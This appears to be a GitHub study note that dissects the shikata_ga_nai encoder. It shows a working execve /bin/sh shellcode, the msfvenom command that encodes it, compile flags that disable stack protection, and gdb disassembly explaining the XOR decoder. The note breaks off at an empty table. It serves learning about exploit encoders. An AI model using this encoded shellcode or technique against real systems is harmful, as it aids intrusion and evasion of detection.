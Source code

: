 # Debugging shikata ga nai encoder
### Execve() shellcode running /bin/sh:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
25 bytes /bin/sh shellcode
```

### Msfvenom encodes shellcode with shikata ga nai (one iteration):
```
echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" | msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -p - 

"\xda\xc2\xd9\x74\x24\xf4\x58\x29\xc9\xbe\x45\x59\xe9\x68\xb1"
"\x07\x31\x70\x18\x83\xe8\xfc\x03\x70\x51\xbb\x1c\x59\x99\x6b"
"\xb7\xb5\x36\xff\x2f\xa2\x67\x9d\xc6\x5c\xfe\x82\x49\x28\xe2"
"\x16\xe3\xcb\x52\x93\x3e\x8b"
```
### Put this into c wrapper, compile with gcc 

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
gdb ./shellcode

(gdb) break *&code
Breakpoint 1 at 0x804a040
(gdb) r
Starting program: 
Shellcode Length:  52

Breakpoint 1, 0x0804a040 in code ()
(gdb) set disassembly-flavor intel
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	fcmovb st,st(2)
   0x0804a042 <+2>:	fnstenv [esp-0xc]
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	sub    ecx,ecx
   0x0804a049 <+9>:	mov    esi,0x68e95945
   0x0804a04e <+14>:	mov    cl,0x7
   0x0804a050 <+16>:	xor    DWORD PTR [eax+0x18],esi
   0x0804a053 <+19>:	sub    eax,0xfffffffc
   0x0804a056 <+22>:	add    esi,DWORD PTR [eax+0x51]
   0x0804a059 <+25>:	mov    ebx,0x6b99591c
   0x0804a05e <+30>:	mov    bh,0xb5
   0x0804a060 <+32>:	jmp    FWORD PTR ss:[edi]
   0x0804a063 <+35>:	mov    ds:0x5cc69d67,al
   0x0804a068 <+40>:	inc    BYTE PTR [edx+0x16e22849]
   0x0804a06e <+46>:	jecxz  0x804a03b
   0x0804a070 <+48>:	push   edx
   0x0804a071 <+49>:	xchg   ebx,eax
   0x0804a072 <+50>:	mov    eax,DWORD PTR ds:[eax]
End of assembler dump.

```
### Debugging the shikata ga nai encoder

The first two instructions fcmovb, fnstenv, store the FPU environment onto the stack and pop onto the eax register
Reference: 
Intel® 64 and IA-32 Architectures Software Developer's Manual Volume 1: Basic Architecture Chapter 8.1.10

And next three just predefine the key for xor for first loop, and clear out the ecx and mov 7 to ecx counter for looping 
as the original shellcode only 25 bytes, and shikta ga nai encode 4 bytes per loop.
```
sub    ecx,ecx
mov    esi,0x68e95945
mov    cl,0x7

```

### Then let's move to decoding loop part

Define a hook stop to exmine the process of decoding
---
```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>x/52xb &code
>end
```
x/52xb &code command shows 52 bytes from the ever begining of the shellcode to the last
print /x $eax will print the hexa value of eax register.

As the instruction, *xor    DWORD PTR [eax+0x18],esi*, indicates that XOR starts from 0x0804a040 + 0x18,
which is at 0x0804a058.

0x0804a056 <+22>:	add    esi,DWORD PTR [eax+0x51]
Decoding happens at the last byte of add instruction, the displacement part of the instruction. 

The structure of x86 instructions:
 INSTRUCTION PREFIX | OPCODE       | ModR/M             | SIB               | DISPLACEMENT  | IMMEDIATE
 --- | --- | --- | --- | --- | ---
 Optional 1 Byte    | 1,2 or 3 Byte| 1 Byte if required | 1 Byte if required| 1, 2 or 4 Byte|1, 2 or 4 Byte
 
Exmine the opcode at **0x0804a056** after xor with esi 
$esi = 0x68e95945
03 70 14

|  a | b  |  c | d  |  a |
|---|---|---|---|---|
|   |   |   |   |   |
|   |   |   |   |   |
|   |   |   |   |   |
```

```

